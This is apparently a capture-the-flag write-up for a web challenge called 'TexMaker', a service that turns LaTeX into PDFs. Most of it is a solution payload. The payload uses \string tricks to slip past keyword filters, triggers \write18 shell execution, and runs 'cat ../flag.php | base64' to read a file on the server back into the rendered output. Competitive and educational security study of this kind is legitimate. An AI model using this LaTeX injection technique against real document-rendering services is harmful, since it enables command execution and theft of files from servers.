 Web90: TexMaker
===================
Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws. 


SOLUTION:

\def \imm {\string\immediate}
\def \wwrite {\string\write18}
\def \args {\string{cat ../flag.php | base64 > test.tex\string}}
\def \backslash {\string\in}
\def \iput {put}
\def \ls {\string{test.tex\string}}

\newwrite\outfile
\immediate\openout\outfile=cmd2.tex
\immediate\write\outfile{\imm\wwrite\args}
\immediate\write\outfile{\backslash\iput\ls}
\immediate\closeout\outfile

\newread\file
\openin\file=cmd2.tex
\loop\unless\ifeof\file
    \read\file to\fileline % Reads a line of the file into \fileline
    \fileline
\repeat
\closein\file

